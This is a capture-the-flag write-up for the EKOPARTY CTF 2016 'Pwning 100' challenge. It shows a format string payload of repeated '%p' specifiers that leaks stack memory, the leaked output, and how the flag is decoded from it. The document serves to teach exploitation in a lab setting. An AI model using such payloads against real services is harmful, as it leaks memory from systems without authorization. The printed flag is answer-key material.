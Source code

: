 #EKOPARTY CTF 2016: Pwning 100

###My first service I
```
Blacky is taking his first steps at C programming for embedded systems, but he makes some mistakes. Retrieve the secret key for access.

nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Alternate server: 7e0a98bb084ec0937553472e7aafcf68ff96baf4.ctf.site 35000
```

##Solution
A format string exploitation.
Payload:
```
aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p
```
And we get:
```
Invalid key: aaaa (nil) 0xa (nil) (nil) (nil) 0xa (nil) 0x454b4f7b 0x4c614269 0x67426566 0x3072647d (nil) 0x61616161
```

So, this hex is the secret key (flag):
>454b4f7b4c614269674265663072647d
>EKO{LaBigBef0rd}

Flag:
>EKO{LaBigBef0rd}
